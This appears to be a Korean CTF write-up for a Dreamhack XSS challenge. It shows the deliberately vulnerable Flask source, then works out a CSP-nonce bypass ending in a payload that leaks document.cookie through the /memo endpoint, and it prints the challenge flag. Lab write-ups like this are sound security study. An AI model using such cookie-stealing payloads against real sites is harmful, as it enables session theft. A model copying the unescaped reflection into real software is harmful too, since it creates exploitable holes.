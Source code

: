 ```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response


@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```
## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 넣어서 나오는 결과값을 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다. 또한 **nonce** 값도 확인한다.  
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
2. add_header  
-> **@app.after_request** 를 통해 매 http 요청이 끝나고 브라우저에 응답하기 전에 실행하는 함수이고, 응답 헤더에 **CSP에 대한 내용과 nonce** 를 추가한다.  
(https://blusky10.tistory.com/entry/FlaskHTTP-%EC%9A%94%EC%B2%AD%EC%97%90-%EB%8C%80%ED%95%9C-%ED%95%B8%EB%93%A4%EB%9F%AC)  

## 문제 모습  
이전 문제인 **XSS Filtering Bypass Advanced** 와 동일함  
<img src="1.jpg">  

## 문제 해결  
**add_header** 함수를 자세히 보면, 어떤 출처의 자원을 사용할 수 있는지 알 수 있다.  
여기에서 사용할 것은 **script** 이다.  
다만, CSP는 일반적으로 인라인코드를 허용하지 않는다.  
따라서 다음과 같이 script를 사용할 수 있다.  
```html
<script src="alert(1)"></script>
```
이렇게 **src** 를 이용해 상대 경로로 script를 실행할 수 있다.  

그러나 위처럼 적으면 실행이 되지 않는다.  
찾아봤을 때, 아래와 같이 경로를 적어줘야 한다고 한다.  

```html
<script src="/vuln?param=alert(1)"></script>
```
(https://dreamhack.io/wargame/writeups/17495)
(https://dreamhack.io/wargame/writeups/9651)

<img src="2.jpg">  

즉, 이를 바탕으로 script 를 만들면 다음과 같다.  
```html
<script src="/vuln?param=location.href='/memo?memo='+document.cookie"></script>
```
그러나 이렇게 제출했는데, 답이 나오지 않았다.  

<img src="3.jpg">  

burp swite 로 확인한 결과, **+** 가 빠져있는 것을 볼 수 있었다.  
이유를 찾아보니, **+** 를 URL decode 하면, **공백** 으로 처리한다고 한다.  
따라서 + 를 인코딩한 상태인 **%2B** 를 넣어야한다.  

```html
<script src="/vuln?param=location.href='/memo?memo='%2Bdocument.cookie"></script>
```

<img src="4.jpg">  

따라서 정답은 **DH{81e64da19119756d725a33889ec3909c}** 이다.